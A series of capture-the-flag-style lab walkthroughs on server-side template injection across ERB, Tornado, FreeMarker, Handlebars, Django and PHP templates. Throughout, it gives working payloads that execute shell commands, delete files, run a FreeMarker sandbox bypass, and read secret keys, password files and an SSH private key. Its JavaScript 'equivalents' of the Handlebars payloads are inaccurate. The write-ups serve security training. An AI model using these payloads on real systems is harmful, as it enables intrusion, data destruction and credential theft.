

**Step1:**

first identify the template injection for ERB template

When we click on product1 it prints message in url product is out of stock.


**Step2:**

To detect this we try basic templates
`<%= EXPRESSION %>` — Inserts the value of an expression.

So we use `<%=foobar%>`

When we render response it show


It mean we can inject here

Step3:

Using this exploit to delete morale.txt

`<% File.delete('/home/carlos/morale.txt') %>`


And the lab get solve

Alternative payload

`<%= system("rm /home/carlos/morale.txt") %>`


**Step1:**

First I  review documentation of tornado and we fount to inject template as

`{{   }}`

**Step2:**

Login to account and submit the preferred name


**Step3:**

No send the Post /my-account/change-blog-post-author-display to repeater and we try the basic injection
`}}{{7*7}}`


Now when we go to any post and post a comment we can see our name


**Step4:**

Now we use this payload to delete morale.txt

`}}{{ __import__('os').system('rm /home/carlos/morale.txt') }}`


Click on follow redirection to see response

And the lab is solved

Alternative payload
` {{os.system('rm /home/carlos/morale.txt')`



**Step1:**

Log in to account using the given credential

**Step2:**

Click on product and then edit template.


**Step3:**

Remove p tag to remove extra text


**Step4:**

No try to change any value to see response


We have error


In these error we have java free maker error
Try to use payload using this

**Step5:**

Here I found a payload for java free maker
`https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection`

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

When we use this we have response


Now ls to list 


Use rm morale.txt to delete file

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

And the lab get solve


**Step1:**

Click on product 1 

We can see in url Unfortunately this product is out of stock

**Step2:**

Send the request to repeater


Try different template signature

At {{}} we found this error


No we try {{this}} 

it returned [object Object] 


**Step3:**

Now we go to this link

`https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html`

Here I found different template

A basic javascript code with corresponding template

```javascript
const name = "Alice";
const greeting = `Hello, ${name}! Welcome to our website.`;
console.log(greeting);
```
```
{{!-- Handlebars Template --}}
{{#with "Alice" as |name|}}
{{!-- Assign the string "Alice" to the variable "name" --}}
  Hello, {{name}}! Welcome to our website.
{{/with}}
```

The #with helper is used to create a new context for a block of code within a template. It allows you to temporarily set a new context (or "scope") for a portion of the template. 
The #each helper is used for iterating over arrays or collections of data. 

Now we found a temepalte on this link
```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


• Context Manipulation: It creates a series of nested contexts and manipulates the context using methods like pop and push on arrays derived from strings.
• Code Injection: It injects a string "return JSON.stringify(process.env);" into the context, which could potentially be used to execute code.
• Iteration and Execution: It iterates over the manipulated context, applying transformations and potentially executing the injected code if the environment allowed it.
Corresponding js code

// Step 1: Define a string and a split method
let string = 's';
let split = 'e'.split(''); // split into an array of characters: ["e"]

// Step 2: Manipulate array (assuming 'split' and 'conslist' are placeholders for dynamic operations)
let conslist = Array.from(split);
let stringConstructor = String.prototype.constructor;
conslist.push(stringConstructor);

// Step 3: Define a split method and manipulate array again
let codelist = 'e'.split('');
let codeToRun = "return JSON.stringify(process.env);";
conslist.push(codeToRun);

// Step 4: Iterate over conslist and execute code
conslist.forEach(item => {
    // Simulate 'string.sub.apply' operation
    // In a real scenario, you would dynamically execute or use this item in some way
    console.log(item);
});

// Demonstration of JSON.stringify(process.env) execution
// (In practice, this code would need proper execution context)
console.log("JSON.stringify(process.env):", JSON.stringify(process.env));

Step4:
Now to delete a molare.txt we use

wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}


Javascript code
// Initialize string values
let string = 's';
let split = 'e'.split(''); // Split the string 'e' into an array of characters

// Create a new array from the split result
let conslist = Array.from(split);

// Manipulate the array
conslist.pop(); // Remove the last element
conslist.push(String.prototype.constructor); // Push the constructor function of String
conslist.pop(); // Remove the last element

// Create a split string
let codelist = 'e'.split(''); // Split the string 'e' into an array of characters

// Add code to the array
conslist.push("return require('child_process').exec('rm /home/carlos/morale.txt');");
conslist.pop(); // Remove the last element

// Iterate over conslist
conslist.forEach(item => {
    // Apply operations from the 'codelist'
    let code = string.substring(0); // Simulate the 'string.sub.apply' operation
    console.log(code); // Output the result (for demonstration purposes)

    // In a real scenario, this would be a place to execute the code
    // Example execution (if the context allowed it):
    // eval(item); // This would execute the code, but it's dangerous
});


We url encode this template and inject 


And the lab get solve


**Step1:**

Login with given credential

**Step2:**

Go to any product


Here we can see product.stock 

Try to replace it with product.self and see result


**Step3:**

Now to extract framework secret key we use node.js template

`{{{ process.env.SECRET_KEY }}} `


We can see error


It looks like the payload `{{ process.env.SECRET_KEY }}` is not working as expected in the Django template system. Django's templating engine does not directly support accessing environment variables through the template syntax. The error message indicates that Django cannot parse the remainder of the expression, likely due to incorrect syntax for the template engine.

In python django setting is access through

`{{ settings.SECRET_KEY }}`
 
Try this


Submit this key to solve the lab.


**Step1:**

Login with given credential 

**Step2:**

Go to product and  then edit template


**Step3:**

Try using simple template:

**Step4:**
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

Here we can see payload for sand box environment for free maker
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

Change aritcle to product and instead of id I want to print item using ls
```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls")}
```


To open file we use cat my_passwrd.txt
```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}
```


**Step1:**

Login with given credential

**Step2:**

Click on preferred name


Send the POST /my-account/change-blog-post-author-display request to repeater.


**Step3:**

Post a comment and then change user.name to user and send the request


Load the webpage and we see


From here one thing is clear that the template is in php.

**Step4:**

Upload a php file


And we see error


From the error tw thing are clear
There is a php file in home/carlos/user.php and there is a function name setavatar that take two parameter.

**Step5:**

Go to sepeater and we access setavatar function

`user.setAvatar('/home/carlos/User.php','image/jpg')`


Now we see the data of file we send  GET /avatar?avatar=wiener to repeater.

In response we can see result


There is one thing in file 


This function delete when it is class and is public.

**Step6:**

Go to repeater and add this path to trigger this function

`user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')`


In get avatar request we can see


Send the request now we simply trigger the gdpr delete function use.ing


Now we go to blog page and reload it

